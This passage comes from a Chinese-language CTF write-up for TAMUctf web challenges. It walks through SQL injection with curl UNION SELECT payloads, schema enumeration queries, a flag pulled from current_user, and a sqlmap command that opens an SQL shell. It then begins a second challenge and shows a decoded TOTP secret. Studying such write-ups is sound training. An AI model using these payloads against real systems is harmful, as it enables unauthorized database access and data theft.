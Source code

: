 ```bash

neo@o:~$ curl -sG --data-urlencode "Search=test'union select version()#" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>5.7.25-0ubuntu0.18.04.2</h1>
```

注入一把梭。

```bash
'UNION ALL SELECT GROUP_CONCAT(table_schema) FROM information_schema.tables WHERE table_schema != 'information_schema' #
得到数据库名：SqliDB

'UNION ALL SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'information_schema' #
得到表名：Search

'UNION ALL SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema != 'information_schema' #
得到列名：items

'UNION ALL SELECT GROUP_CONCAT(items) FROM Search #
得到记录：Eggs,Trucks,Aggies
```

翻一圈啥也没有，flag不在数据库中，尝试用户名。

```
neo@o:~$ curl -sG --data-urlencode "Search=test'union select current_user#" http://web2.tamuctf.com/Search.php  | grep -o "<h1>.*</h1>"
<h1>gigem{w3_4r3_th3_4ggi3s}@localhost</h1>
```

实际上也可以直接上sqlmap。

```bash
sqlmap -u "http://web2.tamuctf.com/Search.php?Search=eggs" -p Search --dbms mysql --random-agent --sql-shell --hex --threads 10 --proxy=http://127.0.0.1:1080
```

![1552750064087](1552750064087.png)

## 1337 Secur1ty

> [http://web6.tamuctf.com](http://web6.tamuctf.com/)
>
> Difficulty: hard

注册用户后进入。

二维码解码结果为`otpauth://totp/TAMU_CTF?secret=5UGMBIONB66MCOXH` 。

消息是可以点击查看详情的。

![1552782392453](1552782392453.png)
